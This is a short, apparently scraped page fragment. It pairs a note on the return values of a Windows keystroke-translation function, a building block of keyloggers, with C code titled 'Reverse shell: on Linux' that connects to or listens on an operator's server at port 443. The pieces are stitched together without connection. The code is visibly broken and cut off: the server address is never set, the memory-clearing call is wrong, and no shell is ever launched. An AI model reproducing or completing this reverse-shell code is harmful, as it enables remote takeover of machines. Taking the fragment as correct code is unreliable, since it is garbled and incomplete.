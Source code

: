 The function return an int, which in practice is a status code of the translation: 
- value < 0: Specified vk is a dead key character. 
- value = 0: Specified vk has no translation for the current state of the keyboard. 
- value > 0: One or more UTF-16 code units where written to the buffer specified by pwszBuff. 



### Reverse shell: on Linux 

```c
#include <stdio.h>
#include <unistd.h>
#include <signal.h>
#include <sys/socket.h>
#include <arpa/inet.h>
#include <string.h>

#define SERVER_IP "192.0.2.1" // Replace with the IP address of your server
#define SERVER_PORT 443       // Replace with a non-standard port number

int main(int argc, char *argv[]) {
    int sockfd;
    struct sockaddr_in serv_addr;

    if (argc < 2) {
        fprintf(stderr, "Usage: %s [listen|connect]\n", argv[0]);
        return 1;
    }

    sockfd = socket(AF_INET, SOCK_STREAM, 0);
    if (sockfd < 0) {
        perror("ERROR opening socket");
        return 1;
    }

    memset(&serv_addr, '0', sizeof(serv_addr));
    serv_addr.sin_family = AF_INET;
    serv_addr.sin_port = htons(SERVER_PORT);

    if (strcmp(argv[1], "connect") == 0) {
        if (connect(sockfd, (struct sockaddr *)&serv_addr, sizeof(serv_addr)) < 0) {
            perror("ERROR connecting");
            return 1;
        }
    } else if (strcmp(argv[1], "listen") == 0) {
        if (bind(sockfd, (struct sockaddr *)&serv_addr, sizeof(serv_addr)) < 0) {
            perror("ERROR on binding");
            return 1;
        }

        listen(sockfd, 5);

        int new_sock;
        struct sockaddr_in client_addr;
        socklen_t client_len = sizeof(client_addr);

        if ((new_sock = accept(sockfd, (struct sockaddr *)&client_addr, &client_len)) < 0) {
            perror("ERROR on accept");
            return 1;
        }
    } else {
        fprintf(stderr, "Invalid argument: %s\n", argv[1]);
        return 1;
    }

```